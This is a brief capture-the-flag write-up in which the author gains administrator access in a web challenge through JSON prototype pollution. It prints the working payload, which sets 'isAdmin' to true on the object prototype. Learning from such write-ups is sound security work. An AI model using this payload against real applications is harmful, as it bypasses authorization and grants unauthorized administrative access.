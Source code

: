 ![alt text](image.png)

![alt text](image-1.png)

So in this web challange i had to login as the administrator to find the flag. Wtaht drew my attentio was this code 

![alt text](image-2.png)


With the power of insering a JSON i could gain access
![alt text](image-3.png)

The payload that worked was:
{
    "options": {
        "constructor": {
            "prototype": {
                "isAdmin": true
            }
        }
    }
}

 Proof of success came later when a subsequent file upload resulted in a JSON response where all objects had inherited the "isAdmin": true property.